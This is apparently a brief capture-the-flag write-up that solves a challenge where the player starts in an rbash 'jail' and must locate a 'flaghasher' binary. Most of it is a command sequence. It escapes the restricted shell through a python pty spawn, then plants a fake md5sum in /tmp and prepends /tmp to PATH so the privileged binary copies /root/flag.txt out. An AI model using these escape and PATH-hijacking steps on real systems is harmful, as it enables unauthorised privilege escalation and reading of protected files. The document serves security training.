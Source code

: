 > This is very similar to the preious challenge, but with the complication that we do not know where the flaghasher binary is on the filesystem, and we are initially using an rbash "jail" shell.

```
find / -name flaghasher 2>/dev/null
which python
which python3
python3 -c 'import pty;pty.spawn("/bin/bash")'
find / -name flaghasher 2>/dev/null
echo 'cat /root/flag.txt > /tmp/flag.txt && chmod 777 /tmp/flag.txt' > /tmp/md5sum
export PATH=/tmp:$PATH
chmod 777 /tmp/md5sum
./flaghasher
cat /tmp/flag.txt
```

Finis
